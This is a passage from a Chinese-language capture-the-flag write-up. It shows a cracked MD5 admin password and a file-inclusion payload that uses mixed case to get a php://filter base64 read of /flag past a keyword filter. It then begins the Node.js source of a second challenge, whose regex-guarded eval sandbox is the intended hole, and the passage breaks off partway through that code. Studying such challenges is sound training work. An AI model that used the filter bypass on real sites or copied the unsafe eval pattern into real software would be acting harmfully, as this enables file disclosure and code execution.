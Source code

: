 `adm1n cf7414b5bdb2e65ee43083f4ddbc4d9f`

密码md5 解一下就是`gtfly123`


然后有一个文件包含，不能直接包含flag，显示有危险字符

又是用php://了

大概过滤了

```
php
read
base64
``` 

简单大小写绕过

`/admin.php?file=PhP://filter/Read=convert.basE64-encode/resource=/flag`

![](http://mo0n.top/images/ha1cyon/ezlogin.png)


flag

flag{95f4aaf6-ae61-47a6-affa-6d2811efbe0e}




## 验证🐎

代码
```
const express = require('express');
const bodyParser = require('body-parser');
const cookieSession = require('cookie-session');

const fs = require('fs');
const crypto = require('crypto');

const keys = require('./key.js').keys;

function md5(s) {
  return crypto.createHash('md5')
    .update(s)
    .digest('hex');
}

function saferEval(str) {
  if (str.replace(/(?:Math(?:\.\w+)?)|[()+\-*/&|^%<>=,?:]|(?:\d+\.?\d*(?:e\d+)?)| /g, '')) {
    return null;
  }
  return eval(str);
} // 2020.4/WORKER1 淦，上次的库太垃圾，我自己写了一个

const template = fs.readFileSync('./index.html').toString();
function render(results) {
  return template.replace('{{results}}', results.join('<br/>'));
}

const app = express();

app.use(bodyParser.urlencoded({ extended: false }));
app.use(bodyParser.json());

app.use(cookieSession({
  name: 'PHPSESSION', // 2020.3/WORKER2 嘿嘿，给👴爪⑧
  keys
```